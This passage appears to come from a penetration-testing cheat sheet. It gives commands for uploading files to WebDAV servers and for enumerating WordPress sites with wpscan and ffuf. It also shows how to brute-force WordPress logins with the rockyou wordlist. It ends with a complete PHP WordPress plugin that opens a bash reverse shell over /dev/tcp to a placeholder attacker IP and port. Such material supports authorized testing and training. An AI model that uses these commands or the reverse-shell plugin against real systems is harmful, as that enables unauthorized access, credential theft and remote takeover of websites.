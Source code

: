 **Connect to the `WebDav`server**
```
cadaver <<IP>>
```

```
dav:/> ls
dav:/> put <<FILE>>
```

### Wordpress

#### wpscan

```
wpscan --url <<IP>> --rua -e ap,at,tt,cb,dbe,u,m
```

**Plugins oriented**
```
wpscan --url <<URL>> --detection-mode aggressive --plugins-detection aggressive
```

**Brute-Force users**
```
wpscan --url <<URL>> -U users.txt -P /usr/share/wordlists/rockyou.txt
```

#### Fuzzing Wordpress Plugins

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt -u <<URL>> -ic
```

#### Wordpress Plugin RCE

Zip up this php file then upload and activate plugin. Wait for reverse shell. 

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/<<IP>>/<<PORT>> 0>&1'");
?>
```


## Port 111 (RPCBIND)
